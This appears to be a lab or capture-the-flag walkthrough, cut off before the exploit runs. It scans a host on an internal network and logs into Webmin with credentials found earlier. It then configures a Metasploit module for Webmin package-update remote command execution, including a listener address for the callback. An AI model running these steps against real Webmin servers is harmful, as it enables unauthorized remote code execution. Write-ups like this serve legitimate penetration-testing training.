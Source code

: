 ![[Pasted image 20250513132613.png]]

After listing and performing different types of scan we can identify a route to advance

![[Pasted image 20250512181147.png]]

# Exploitation through the second network interface

# Nmap

```python
sudo nmap -p- -sCV --open -Pn -n 10.10.10.3
```

We can identify a vulnerability in port 10000/TCP Open HTTP Miniserv 1.953 (Webmin HTTPD)

![[Pasted image 20250512192250.png]]

We verify the web and we have a login panel in which we tested the credentials that we get previously and get access to the web

![[Pasted image 20250513134446.png]]

webmin dashboard

![[Pasted image 20250513134631.png]]

We perform a search and find that this service is vulnerable to Package Updates Remote Command Execution

searched for exploits related to Webmin. 

```pyhton
search webmin
```

I found an exploit that works very well.

```python
use exploit/linux/http/webmin_packageup_rce
```

We used the previously discovered credentials to configure the exploit.

```python
> set USERNAME support 
```

```python
> set PASSWORD support@123
```

```python
> set lhost 172.16.250.11
```

```python
> set rhost 10.10.10.3
```
